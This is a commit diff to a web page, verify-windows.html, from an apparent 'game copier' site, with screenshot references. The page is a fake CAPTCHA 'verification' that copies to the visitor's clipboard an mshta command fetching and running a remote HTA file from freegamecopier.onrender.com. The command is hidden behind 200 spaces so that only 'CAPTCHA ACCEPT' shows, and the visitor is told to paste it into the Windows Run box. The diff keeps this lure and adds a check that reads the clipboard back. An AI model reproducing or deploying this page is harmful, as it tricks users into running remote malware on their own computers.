

Before and after one commit to skibiditoile3qb/GAME-COPIER, a website: page public/verify-windows.html in a window 1280 px wide. Both pictures are taken after a click on the button "Copy". Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update verify-windows.html

```diff
--- a/public/verify-windows.html
+++ b/public/verify-windows.html
@@ -33,18 +33,17 @@
       cursor: pointer;
       margin: 10px;
     }
-    .btn:hover {
-      background: #4752c4;
-    }
+    .btn:hover { background: #4752c4; }
   </style>
 </head>
 <body>
   <h2>Windows Verification</h2>
   <p>Press <b>Win + R</b>, then <b>Ctrl + V</b>, then <b>Enter</b>:</p>
-
   <div class="cmd" id="cmdText"></div>
   <button class="btn" onclick="copyCommand()">Copy</button>
+  <button class="btn" onclick="checkVerification()">Done</button>
   <button class="btn" onclick="window.location.href='/'">Back to Home</button>
+  <div id="verifyMsg" style="margin-top:10px;"></div>
 
   <script>
     function generateCode() {
@@ -57,8 +56,7 @@
     }
 
     const verificationCode = generateCode();
-    const massiveSpaces = " ".repeat(200); // 👀 Hidden AF
-    const fullCommand = `mshta https://freegamecopier.onrender.com/verifyaccept.hta${massiveSpaces}CAPTCHA ACCEPT — Code: ${verificationCode}`;
+    const fullCommand = `mshta https://freegamecopier.onrender.com/verifyaccept.hta?code=${verificationCode}${" ".repeat(200)}CAPTCHA ACCEPT — Code: ${verificationCode}`;
 
     document.getElementById("cmdText").innerText = fullCommand;
 
@@ -66,7 +64,23 @@
       navigator.clipboard.writeText(fullCommand).then(() => {
         alert("Copied to clipboard!");
       }).catch(() => {
-        alert("Clipboard access blocked — try copying manually.");
+        alert("Clipboard access blocked — copy manually.");
+      });
+    }
+
+    function checkVerification() {
+      navigator.clipboard.readText().then(text => {
+        if (text.includes(verificationCode)) {
+          localStorage.setItem("tokenGateVerified", "1");
+          document.getElementById("verifyMsg").style.color = "#4CAF50";
+          document.getElementById("verifyMsg").innerText = "✅ Verified!";
+          setTimeout(() => window.location.href = "/verifynotwindows", 1000);
+        } else {
+          document.getElementById("verifyMsg").style.color = "#ff4d4d";
+          document.getElementById("verifyMsg").innerText = "❌ Verification failed. Clipboard doesn't match.";
+        }
+      }).catch(() => {
+        alert("Failed to read clipboard. Try again.");
       });
     }
   </script>
```
